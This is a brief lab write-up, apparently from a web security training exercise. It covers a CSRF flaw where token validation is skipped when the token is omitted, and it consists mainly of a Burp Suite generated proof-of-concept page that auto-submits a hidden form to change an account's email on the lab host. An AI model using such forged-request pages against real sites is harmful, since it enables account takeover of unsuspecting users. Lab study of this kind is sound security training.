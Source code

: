 # Lab: CSRF where token validation depends on token being present

This is the same as the first lab, but the application doesn't validate CSRF tokens as intended when the token is omitted from a request:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ace41f101f4736cfc08301db0058008c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asdf&#64;asdf&#46;com" />
    </form>
    <script>
        document.forms[0].submit();
    </script>
  </body>
</html>
```